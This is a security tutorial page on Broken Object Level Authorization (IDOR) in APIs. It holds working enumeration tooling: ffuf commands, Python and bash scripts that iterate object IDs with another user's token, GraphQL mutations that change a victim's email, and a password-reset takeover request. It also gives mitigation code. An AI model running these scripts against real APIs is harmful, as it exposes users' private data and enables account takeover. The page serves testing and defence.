

# Broken Object Level Authorization (BOLA / IDOR)

> **BOLA is the #1 vulnerability in the OWASP API Security Top 10 — it occurs when an API allows a user to access or modify objects they don't own, simply by changing an ID in the request.**

---

## 🧠 What Is It? (Beginner Explanation)

Imagine a gym with 100 lockers. Each member gets a locker and a key — but every key opens **every** locker. You're supposed to only open yours, but nothing actually prevents you from opening locker #42 when you only paid for locker #7.

That's BOLA. The server hands out access to objects (users, orders, invoices, messages) by ID, but never checks **whether the requester actually owns that object**.

```
GET /api/v1/invoices/1001  ← Your invoice
GET /api/v1/invoices/1002  ← Someone else's invoice — should be forbidden
                                                       ← But returns 200 OK
```

### BOLA vs IDOR — What's the Difference?

| Term | Origin | Scope |
|------|--------|-------|
| **IDOR** (Insecure Direct Object Reference) | OWASP Web App Top 10 (legacy) | Broader — web apps and APIs |
| **BOLA** (Broken Object Level Authorization) | OWASP API Security Top 10 | API-specific framing |

They describe the **same root cause**: direct references to internal objects without authorization checks. BOLA is the preferred term in API security contexts.

---

## 🏗️ How It Works (Technical Deep Dive)

### The Root Cause

```
Normal (secure) flow:
User B requests /api/invoices/1001
→ Server checks: does User B own invoice 1001?
→ User B owns invoice 1099, NOT 1001
→ Server returns: 403 Forbidden

Vulnerable flow:
User B requests /api/invoices/1001
→ Server only checks: is User B authenticated?
→ User B has a valid token
→ Server returns: 200 OK + User A's invoice data  ← BOLA
```

### Horizontal vs Vertical Privilege Escalation

```
Horizontal BOLA (same privilege level):
├─ User A (regular)  ──→ accesses User B's (regular) data
└─ Both have same role, but User A reads User B's private resources

Vertical BOLA / Privilege Escalation (different privilege levels):
├─ User A (regular)  ──→ accesses Admin-only resources
└─ User A escalates to a higher access tier
```

```http
--- HORIZONTAL BOLA ---
GET /api/v1/user/profile/102 HTTP/1.1
Authorization: Bearer [User 101's token]

Response: 200 OK — returns User 102's profile
(User 101 should only see their own profile)

--- VERTICAL BOLA ---
GET /api/v1/admin/users HTTP/1.1
Authorization: Bearer [Regular user's token]

Response: 200 OK — returns all users admin list
(Regular users should not access admin endpoints)
```

---

## 📊 Diagram



---

## ⚙️ Technical Details

### Where Object References Appear

```http
--- URL PATH ---
GET /api/v1/users/42/profile
GET /api/v1/orders/10089/items
GET /api/v1/documents/secret-doc-id-here

--- QUERY PARAMETERS ---
GET /api/v1/invoice?id=1001
GET /api/v1/report?user_id=42&month=2024-01

--- REQUEST BODY ---
POST /api/v1/transfer
{"from_account": "ACC001", "to_account": "ACC999", "amount": 500}

--- COOKIES ---
Cookie: user_id=42; session=abc123

--- HEADERS ---
X-User-ID: 42
X-Resource-ID: invoice_1001
```

### ID Types and Testability

| ID Type | Example | Testability | Notes |
|---------|---------|-------------|-------|
| Sequential Integer | `1`, `2`, `3` | ⭐⭐⭐⭐⭐ Easy | Just increment |
| Timestamp-based | `1700000042` | ⭐⭐⭐⭐ | Guess registration time |
| Short alphanumeric | `abc123` | ⭐⭐⭐ | Small space, brute-forceable |
| UUID v4 | `550e8400-e29b-41d4-a716-...` | ⭐ Hard | 122 bits of entropy |
| UUID v1 | `a8098c1a-f86e-11da-bd1a-...` | ⭐⭐ | Contains timestamp — partially predictable |
| MD5 of username | `5f4dcc3b5aa765d61d8327de...` | ⭐⭐⭐ | Brute-forceable with known username |
| SHA1 of email | `d3486ae9136e7856bc42212385ea797094475802` | ⭐⭐⭐ | Same as MD5 |
| Compound | `user=alice&report=q1` | ⭐⭐⭐⭐ | Change username component |

---

## 💥 Exploitation (Step-by-Step)

### Standard Two-Account Testing Methodology

```
Step 1: Create two accounts
  Account A: victim@test.com (or use existing user)
  Account B: attacker@test.com (your controlled account)

Step 2: As Account A, create resources and note all IDs
  - Create a profile, order, invoice, message, etc.
  - Record every ID in every response

Step 3: Switch to Account B's session
  - Get Account B's token
  - Do NOT use Account A's token from this point

Step 4: Attempt to access Account A's resources using Account B's credentials
  - Replace Account B's resource IDs with Account A's IDs
  - Observe response codes and response body

Step 5: Interpret results
  - 200 OK + data          → CONFIRMED BOLA
  - 200 OK + empty         → Possible BOLA (resource hidden but found)
  - 403 Forbidden           → Authorization check present (not vulnerable)
  - 404 Not Found           → Might still be BOLA (404-based auth)
  - Response size changed   → Blind BOLA (still exploitable)
```

### Burp Suite — Manual ID Enumeration

```
1. Intercept request in Burp Proxy
2. Right-click → Send to Intruder
3. Highlight the object ID in the request
4. Payload type: Numbers (sequential range 1–10000)
5. Start attack
6. Sort by Status Code or Response Length
7. All 200 responses with unexpected content = BOLA
```

```bash
# CLI equivalent with ffuf
ffuf -u "https://api.target.com/v1/users/FUZZ" \
  -w <(seq 1 10000) \
  -H "Authorization: Bearer [USER_B_TOKEN]" \
  -mc 200 \
  -o bola-results.json

# Parse results
cat bola-results.json | jq '.results[] | {id: .input.FUZZ, size: .length}'
```

### Real HTTP Request Examples

```http
--- Test 1: Basic IDOR ---
GET /api/v1/invoices/1337 HTTP/1.1
Host: api.target.com
Authorization: Bearer eyJ...[User B's token]...

Response:
HTTP/1.1 200 OK
Content-Type: application/json

{
  "invoice_id": "1337",
  "user_id": "42",        ← User A's ID (not User B's)
  "amount": 4999.99,
  "billing_email": "victim@target.com",
  "card_last_four": "4242",
  "items": [...]
}

→ BOLA CONFIRMED: User B can read User A's invoice
```

```http
--- Test 2: IDOR in POST body ---
POST /api/v1/messages/read HTTP/1.1
Host: api.target.com
Authorization: Bearer [User B's token]
Content-Type: application/json

{"message_id": "9999", "mark_read": true}

Response: 200 OK
→ User B just read and marked User A's private message as read
```

```http
--- Test 3: Vertical privilege escalation ---
DELETE /api/v1/admin/users/42 HTTP/1.1
Host: api.target.com
Authorization: Bearer [Regular user's token]

Response: 200 OK {"deleted": true}
→ Regular user deleted a user via admin endpoint
```

### Blind IDOR Detection Techniques

```python
# Technique 1: Response size comparison
# If response body is smaller for unauthorized objects, 
# the object exists but is filtered — still a BOLA if data leaks

import requests

token_user_b = "eyJ..."
headers = {"Authorization": f"Bearer {token_user_b}"}

results = []
for invoice_id in range(1000, 1100):
    r = requests.get(
        f"https://api.target.com/v1/invoices/{invoice_id}",
        headers=headers
    )
    results.append({
        "id": invoice_id,
        "status": r.status_code,
        "size": len(r.content),
        "body": r.text[:100]
    })

# Analyze: consistent 200s with large body = BOLA
# Consistent 403/404 = authorization working
# Mixed sizes on 200 = partial BOLA
for r in results:
    if r["status"] == 200:
        print(f"[+] ID {r['id']}: {r['status']} ({r['size']} bytes)")
```

```bash
# Technique 2: Side-channel via email notification
# Access a resource that triggers an email to the owner
# If victim receives email: server accessed the object (confirmed BOLA)

# Technique 3: Time-based (object exists check)
# If server takes longer when object exists (DB query) vs doesn't exist (early return)
# Measure response time differences across IDs
```

### IDOR via Hashed or Encoded IDs

```bash
# MD5 hash of sequential integer IDs
for i in $(seq 1 100); do
  hash=$(echo -n "$i" | md5sum | cut -d' ' -f1)
  echo "${i} → ${hash}"
done

# Test hashed IDs
for i in $(seq 1 100); do
  hash=$(echo -n "$i" | md5sum | cut -d' ' -f1)
  curl -s "https://api.target.com/v1/users/${hash}" \
    -H "Authorization: Bearer [token]" -o /dev/null -w "${hash}: %{http_code}\n"
done

# UUID v1 prediction (contains timestamp)
python3 -c "
import uuid, time

# UUID v1 uses current time — create multiple to find pattern
for i in range(5):
    print(uuid.uuid1())
    time.sleep(0.01)
"
# Output: timestamps increment predictably → enumerate nearby UUIDs
```

### IDOR in GraphQL

```graphql
# IDOR via GraphQL — change user ID in query
{
  user(id: "2") {
    id
    email
    creditCard
    privateNotes
    orders { id total }
  }
}

# IDOR in mutation — modify another user's data
mutation {
  updateProfile(
    id: "2",
    email: "hacker@evil.com"
  ) { id email }
}

# IDOR in file download
{
  downloadFile(id: "report_user_42_q1.pdf") {
    url
    content
  }
}
```

### IDOR in Password Reset

```http
POST /api/v1/reset-password HTTP/1.1
Content-Type: application/json

{"user_id": "42", "new_password": "Hacked123!"}

→ If no ownership validation: reset any user's password
```

---

## 🏆 Real Bug Bounty Examples

### Uber IDOR — Access Any User's Trip Data
```
Vulnerability: GET /api/trips/{trip_id} had no ownership check
Impact: Read any user's trip history, pickup/dropoff locations, payment info
Bounty: Undisclosed (reported 2016)

Exploit:
GET /api/trips/TRP-001
Authorization: [Attacker's token]
Response: 200 OK with victim's trip details, home/work addresses
```

### Facebook — Delete Any Photo
```
Vulnerability: POST /photo/delete with photo ID, no ownership check
Impact: Delete any user's photo on Facebook
Bounty: $12,500 (2015)
Researcher: Laxman Muthiyah

Exploit:
POST /photo/delete
{"photo_id": "VICTIM_PHOTO_ID"}
→ Photo deleted from victim's account
```

### Instagram IDOR — Access Private Photos
```
Vulnerability: Media endpoint leaked private photo URLs via predictable IDs
Impact: View private photos of any user
Bounty: Undisclosed
```

### HackerOne Report #342978 — Shopify IDOR
```
Vulnerability: /admin/api/2019-04/orders/{id}.json
              No shop ownership check in multi-tenant API
Impact: Merchant A could read Merchant B's orders
Bounty: $500

Exploit:
GET /admin/api/2019-04/orders/VICTIM_ORDER_ID.json
X-Shopify-Access-Token: [Attacker merchant's token]
→ Returned victim merchant's order details
```

### Twitter IDOR — Access DMs
```
Vulnerability: Direct message endpoint did not validate conversation ownership
Impact: Read private DMs of any user knowing the conversation ID
Timeline: Disclosed via HackerOne, $1,540 bounty
```

---

## 🔍 Detection

### Automated Tools

```bash
# Autorize (Burp Extension) — automated IDOR detection
# 1. Install from BApp Store
# 2. Configure "low-privilege" and "no auth" headers
# 3. Browse as high-privilege user
# 4. Autorize automatically retests every request with low/no privilege
# 5. Color coding: Red = IDOR confirmed, Yellow = possible, Green = protected

# FFUF for ID enumeration
ffuf -u "https://api.target.com/v1/OBJECT/FUZZ" \
  -w <(seq 1 50000) \
  -H "Authorization: Bearer VICTIM_TOKEN" \
  -H "Content-Type: application/json" \
  -mc 200 \
  -t 50 \
  -o findings.json

# Param Miner (Burp) — find hidden parameters that take object IDs

# Arjun — find hidden GET/POST parameters
python3 arjun.py -u "https://api.target.com/v1/profile" \
  -H "Authorization: Bearer token" \
  --stable

# nuclei — automated IDOR templates
nuclei -u https://target.com \
  -t nuclei-templates/vulnerabilities/generic/bola-idor.yaml
```

```bash
# Manual bash script: two-account IDOR tester
#!/bin/bash
TARGET="https://api.target.com"
TOKEN_A="eyJ...userA..."
TOKEN_B="eyJ...userB..."
ENDPOINT="/v1/invoices"

echo "[*] Getting User A's object IDs..."
IDS=$(curl -s "$TARGET$ENDPOINT" -H "Authorization: Bearer $TOKEN_A" | \
  jq -r '.[].id')

echo "[*] Testing access with User B's token..."
for id in $IDS; do
  response=$(curl -s -o /dev/null -w "%{http_code}" \
    "$TARGET$ENDPOINT/$id" \
    -H "Authorization: Bearer $TOKEN_B")
  if [ "$response" = "200" ]; then
    echo "[BOLA] ID $id accessible by User B! (HTTP $response)"
  else
    echo "[ OK ] ID $id: HTTP $response"
  fi
done
```

### Testing Checklist

```
[ ] Find all API endpoints that accept object identifiers
[ ] Identify identifier type: integer, UUID, hash, compound
[ ] Create two accounts (attacker + victim)
[ ] As victim: create/generate resources, collect all IDs
[ ] As attacker: attempt to read each victim resource
[ ] As attacker: attempt to modify each victim resource
[ ] As attacker: attempt to delete each victim resource
[ ] Test with NO token (unauthenticated access)
[ ] Test GUID/UUID: check if v1 (time-based) or v4 (random)
[ ] Test hashed IDs: try hash(1), hash(2), hash(3)...
[ ] Test state-changing operations (update, delete)
[ ] Check GraphQL queries for object ID parameters
[ ] Check Websocket messages for object references
[ ] Test password reset, file download, report generation
[ ] Check indirect references in compound parameters
[ ] Verify 404 responses (server might use 404 instead of 403 to hide existence)
```

---

## 🛡️ Mitigation

### 1. Always Validate Ownership in Every Handler

```python
# VULNERABLE
@app.route('/api/v1/invoices/<invoice_id>')
@require_auth
def get_invoice(invoice_id):
    invoice = Invoice.get(invoice_id)       # ← No ownership check!
    return jsonify(invoice.to_dict())

# SECURE
@app.route('/api/v1/invoices/<invoice_id>')
@require_auth
def get_invoice(invoice_id):
    invoice = Invoice.query.filter_by(
        id=invoice_id,
        user_id=current_user.id             # ← Filter by owner
    ).first_or_404()
    return jsonify(invoice.to_dict())
```

```javascript
// Node.js / Express — Secure pattern
app.get('/api/v1/invoices/:id', authenticate, async (req, res) => {
  const invoice = await Invoice.findOne({
    where: {
      id: req.params.id,
      userId: req.user.id,      // ← MUST include ownership filter
    }
  });
  if (!invoice) return res.status(404).json({ error: 'Not found' });
  return res.json(invoice);
});
```

### 2. Use Indirect References (Reference Maps)

```python
# Instead of exposing internal database IDs,
# use a per-user reference map

# Secure: User sees opaque token, server maps to real ID
class ReferenceMap:
    def __init__(self, user_id):
        self.user_id = user_id

    def get_internal_id(self, reference):
        mapping = UserResourceMapping.query.filter_by(
            user_id=self.user_id,
            public_reference=reference
        ).first()
        if not mapping:
            raise PermissionError("Access denied")
        return mapping.internal_id

# Usage
@app.route('/api/v1/invoices/<reference>')
@require_auth
def get_invoice(reference):
    ref_map = ReferenceMap(current_user.id)
    try:
        internal_id = ref_map.get_internal_id(reference)
    except PermissionError:
        return jsonify({"error": "Not found"}), 404
    invoice = Invoice.get(internal_id)
    return jsonify(invoice.to_dict())
```

### 3. Centralized Authorization Layer

```python
# Use an authorization library (e.g., Oso, Casbin, OPA)
# Centralize all access control decisions

from oso import Oso

oso = Oso()

@oso.polar_class
class User:
    def __init__(self, id, role):
        self.id = id
        self.role = role

@oso.polar_class
class Invoice:
    def __init__(self, id, user_id):
        self.id = id
        self.user_id = user_id

# Policy file (authorization.polar):
# allow(user: User, "read", invoice: Invoice) if
#     user.id = invoice.user_id;
# allow(user: User, "read", invoice: Invoice) if
#     user.role = "admin";

# Usage
def get_invoice(invoice_id):
    invoice = Invoice.get(invoice_id)
    oso.authorize(current_user, "read", invoice)   # Raises if unauthorized
    return invoice
```

### 4. Use UUIDs Instead of Sequential IDs

```sql
-- PostgreSQL: use gen_random_uuid() for primary keys
CREATE TABLE invoices (
    id UUID DEFAULT gen_random_uuid() PRIMARY KEY,
    user_id UUID NOT NULL REFERENCES users(id),
    amount DECIMAL(10,2),
    created_at TIMESTAMP DEFAULT NOW()
);
```

> ⚠️ UUID alone does NOT fix BOLA — ownership checks are still required. UUID only reduces enumeration risk.

### 5. Automated Testing in CI/CD

```yaml
# Include IDOR tests in your CI pipeline
# Example with custom test
- name: BOLA security tests
  run: |
    python3 tests/security/test_bola.py \
      --user-a-token $USER_A_TOKEN \
      --user-b-token $USER_B_TOKEN \
      --base-url $API_BASE_URL
```

---

## 📊 BOLA Severity Ratings

| Impact | Severity | Example |
|--------|----------|---------|
| Read PII (name, email, address) | High | GET /users/{id} |
| Read financial data (card, bank) | Critical | GET /payments/{id} |
| Read private messages/DMs | High | GET /messages/{id} |
| Modify victim's data (email, password) | Critical | PUT /users/{id} |
| Delete victim's data | High | DELETE /posts/{id} |
| Escalate to admin | Critical | GET /admin/dashboard |
| Access authentication tokens | Critical | GET /sessions/{id} |
| Read medical records | Critical | GET /health-records/{id} |

---

## 📚 References

- [OWASP API Security Top 10 — API1:2023 Broken Object Level Authorization](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/)
- [PortSwigger IDOR Guide](https://portswigger.net/web-security/access-control/idor)
- [HackerOne BOLA/IDOR Writeups](https://hackerone.com/hacktivity?querystring=IDOR)
- [Inon Shkedy — 31 Days of API Security Tips](https://github.com/inonshkedy/31-days-of-api-security-tips)
- [APIsec University — BOLA Course](https://university.apisec.ai/)
- [DVGA — Damn Vulnerable GraphQL Application (BOLA labs)](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application)
- [VAmPI — Vulnerable API (BOLA labs)](https://github.com/erev0s/VAmPI)
- [crAPI — Completely Ridiculous API (OWASP practice lab)](https://github.com/OWASP/crAPI)
